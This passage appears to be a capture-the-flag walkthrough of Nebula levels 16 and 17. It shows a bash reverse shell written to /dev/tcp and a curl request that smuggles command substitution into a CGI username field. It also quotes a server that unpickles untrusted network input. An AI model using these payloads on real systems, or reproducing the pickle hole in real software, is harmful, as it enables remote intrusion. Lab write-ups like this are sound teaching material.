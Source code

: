 We start by setting up our netcat listener as usual:

```shell
ncat -nlvp 8000

Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 5F3F 6ECC 75A2 4FF9 C358 2913 09FF 5C75 6D50 F5A4
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
```

Next, we write our exploit into a file whose name contains only uppercase
characters.

```shell
level16@nebula:~$ cat /tmp/EXPLOIT
bash -i >& /dev/tcp/192.168.144.1/8000 0>&1
```

Finally, we make a HTTP request with url with `` `/*/EXPLOIT` `` URL encoded
as the username parameter. This makes use of bash's wildcard expansion feature
to run the `/tmp/EXPLOIT` file without having to use non uppercase characters.

```shell
level16@nebula:~$ curl "192.168.144.192:1616/index.cgi?username=%60%2F%2A%2FEXPLOIT%60&password=asdf"
```

We obtain a shell with our listener.

```shell
Ncat: Connection from 192.168.144.192.
Ncat: Connection from 192.168.144.192:36816.
bash: no job control in this shell
flag16@nebula:/home/flag16$ whoami
whoami
flag16
flag16@nebula:/home/flag16$ id
id
uid=983(flag16) gid=983(flag16) groups=983(flag16)
flag16@nebula:/home/flag16$ getflag
getflag
You have successfully executed getflag on a target account
```

# level 17

We are given the below source code.

```python
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")
```